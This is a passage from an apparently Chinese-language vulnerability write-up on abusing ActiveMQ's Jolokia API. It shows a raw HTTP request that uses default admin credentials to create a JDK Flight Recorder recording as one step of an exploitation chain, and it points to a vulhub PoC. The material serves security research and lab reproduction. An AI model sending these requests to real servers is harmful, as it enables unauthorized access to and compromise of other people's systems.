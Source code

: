 因为要调用setConfiguration更改某个配置到值，所以首先构建数据包获取默认配置，先调用setPredefinedConfiguration，打断点可以拿到默认的值，但是这里我断点下不下去不知道为什么，用一下l3yx师傅的图

![image-20240228110621536](images/4.png)

拿到的值很长，可以在vulhub的poc里面找到，绕过下断点也可以在debug中复制出来，接下来就是新建记录

```
POST /api/jolokia HTTP/1.1
Host: 192.168.50.74:8161
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM
origin: http://localhost
Connection: close
Content-Type: application/json
Content-Length: 136

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```
